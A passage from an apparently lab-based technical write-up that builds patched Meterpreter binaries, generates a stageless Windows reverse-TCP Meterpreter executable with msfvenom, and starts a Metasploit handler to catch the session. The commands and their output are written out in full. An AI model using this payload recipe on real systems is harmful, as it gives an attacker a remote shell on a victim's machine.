 You should then feel deeply ashamed about iterating over the bytes in a
(multi-byte?) string like this, and you should think "surely this won't work".
When it does work, you should make a mental note to learn how to C like a
grown-up.

2\. Build Meterpreter

See <http://buffered.io/posts/building-meterpreter-is-easy/> and
<https://github.com/rapid7/metasploit-payloads/tree/master/c/meterpreter> for
more details.

Copy the built binaries (within `metasploit-payloads/c/meterpreter/output/*/`)
to `metasploit-framework/data/meterpreter/` to make them available to
Metasploit.

3\. Generate a stageless Windows Meterpreter

Be sure to include the stdapi extension. This will result in our patched code
being baked right in to the payload.

```text
% ~/work/metasploitsploit/metasploit-framework/msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=172.18.0.5 LPORT=4444 EXTENSIONS=stdapi -f exe -o ~/work/metasploitsploit/windows_x64_meterpreter_reverse_tcp.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x64 from the payload
WARNING: Local file /home/justin/work/metasploitsploit/metasploit-framework/data/meterpreter/metsrv.x64.dll is being used
WARNING: Local files may be incompatible with the Metasploit Framework
WARNING: Local file /home/justin/work/metasploitsploit/metasploit-framework/data/meterpreter/ext_server_stdapi.x64.dll is being used
No encoder or badchars specified, outputting raw payload
Payload size: 1612339 bytes
Final size of exe file: 1618944 bytes
Saved as: /home/justin/work/metasploitsploit/windows_x64_meterpreter_reverse_tcp.exe
```

4\. Unbuild Meterpreter

Having generated a stageless Windows Meterpreter inclusive of the stdapi
extension, we no longer need the patched Meterpreter binaries within
Metasploit. Scrub them from `metasploit-framework/data/meterpreter/`

5\. Get a session

Start Metasploit, start a stageless Meterpreter handler:

```text
% ~/work/metasploitsploit/metasploit-framework/msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/x64/meterpreter_reverse_tcp
PAYLOAD => windows/x64/meterpreter_reverse_tcp
msf exploit(handler) > set LHOST 172.18.0.5
LHOST => 172.18.0.5
msf exploit(handler) > set LPORT 4444
LPORT => 4444
msf exploit(handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(handler) > exploit -j
[*] Exploit running as background job.
msf exploit(handler) >
[*] Started reverse TCP handler on 172.18.0.5:4444
[*] Starting the payload handler...
```
